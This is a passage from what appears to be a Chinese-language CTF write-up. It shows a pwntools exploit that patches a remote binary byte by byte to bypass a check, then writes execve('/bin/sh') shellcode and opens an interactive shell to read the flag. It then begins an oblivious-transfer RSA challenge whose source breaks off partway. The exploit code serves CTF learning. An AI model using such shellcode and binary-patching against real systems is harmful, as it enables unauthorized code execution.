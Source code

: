 ```python
log.info('check <= 7 become check <= 71 , cmp eax,0x47')

sleep(.4)
s.send('0x401279 1' + '\n')    
log.info('disable shifting')

sleep(.4)
s.send('0x401262 55' + '\n')    
log.info('jg 0x40129a --> jg 0x401263 (bypassed cmp check)')

clear_content = "\xf3\x0f\x1e\xfa\x55\x48\x89\xe5\xba\x07\x00\x00\x00\xbe\x00\x10\x00\x00\xbf\x00\x10\x40\x00\xe8\xce\xfe\xff\xff\x90\x5d"

pos = 0
for i in range(0x4011b6, 0x4011b6+len(clear_content), 1):
  byte = ord(clear_content[pos])
  s.send('{} {}\n'.format(hex(i), byte))
  log.info('Clearing {} at {}'.format(hex(byte),hex(i)))
  sleep(.4)
  pos += 1

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05\x90\x90\x90"
pos_shell = 0
for i in range(0x4011b6, 0x4011d1, 1):
    byte=ord(shellcode[pos_shell])
    s.send('{} {}\n'.format(hex(i), byte))
    log.info('Writting {} at {}'.format(hex(byte),hex(i)))
    sleep(.4)
    pos_shell+=1

s.send('0x4012a7 78\n')
s.interactive()
```

即可 getshell, 执行 `cat flag` 即可获得 flag。

## 不经意传输

### 解密消息

题目源码如下：

```python
from Crypto.PublicKey import RSA
from random import SystemRandom
import os


if __name__ == "__main__":
    random = SystemRandom()

    key = RSA.generate(1024)
    print("n =", key.n)
    print("e =", key.e)

    m0 = int.from_bytes(os.urandom(64).hex().encode(), "big")
    m1 = int.from_bytes(os.urandom(64).hex().encode(), "big")

    x0 = random.randrange(key.n)
    x1 = random.randrange(key.n)
    print("x0 =", x0)
    print("x1 =", x1)

```